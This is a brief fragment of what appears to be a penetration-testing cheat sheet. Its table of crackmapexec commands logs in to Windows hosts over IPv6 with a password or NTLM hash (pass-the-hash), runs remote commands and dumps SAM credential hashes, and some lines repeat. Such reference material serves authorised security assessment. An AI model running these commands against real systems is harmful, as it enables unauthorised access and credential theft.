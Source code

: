 ### IPv6 Assessment
| for Example  |
| ------------- |
|crackmapexec 2001:db7::1234:1 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec 2001:db7::1234:1 -u Administrator -H "aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86" --sam |
|crackmapexec 2001:db7::1234:1 -u Administrator -H "aad3b435b51404eeaad3b435b51404ee:a87f3a337d73085c45f9416be5787d86" -x "hostname"|



|crackmapexec 2001:db7::1234:1 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec 2001:db7::1234:1 -u Administrator -p 'Passw0rd' -x "ipconfig" |
